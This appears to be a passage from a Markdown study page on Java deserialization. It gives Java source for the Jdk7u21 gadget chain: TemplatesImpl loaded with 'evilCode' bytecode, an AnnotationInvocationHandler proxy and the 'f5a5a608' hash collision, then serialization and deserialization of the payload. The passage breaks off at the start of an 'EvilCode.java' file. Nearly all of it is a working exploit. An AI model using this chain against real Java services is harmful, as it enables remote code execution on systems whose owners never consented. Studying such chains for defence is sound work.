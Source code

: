     import cc.util.SerializeUtil;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

    import javax.xml.transform.Templates;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.util.HashMap;
    import java.util.HashSet;
    import java.util.LinkedHashSet;
    import java.util.Map;

    public class Jdk7u21 {
        public static void main(String[] args) throws Exception{
            byte[] evilCode = SerializeUtil.getEvilCode();
            TemplatesImpl templates = new TemplatesImpl();
            SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
            SerializeUtil.setFieldValue(templates,"_name","feng");

            HashMap<String, Object> memberValues = new HashMap<String, Object>();
            memberValues.put("f5a5a608","feng");
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
            cons.setAccessible(true);
            InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);


            Templates proxy = (Templates) Proxy.newProxyInstance(
                    Templates.class.getClassLoader(),
                    new Class[]{Templates.class},
                    handler
            );


            HashSet hashSet = new LinkedHashSet();
            hashSet.add(templates);
            hashSet.add(proxy);

            memberValues.put("f5a5a608",templates);
            byte[] bytes = SerializeUtil.serialize(hashSet);
            SerializeUtil.unserialize(bytes);
        }
    }
    ```

=== "EvilCode.java"

    ```java
    package cc.jdk7u21;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
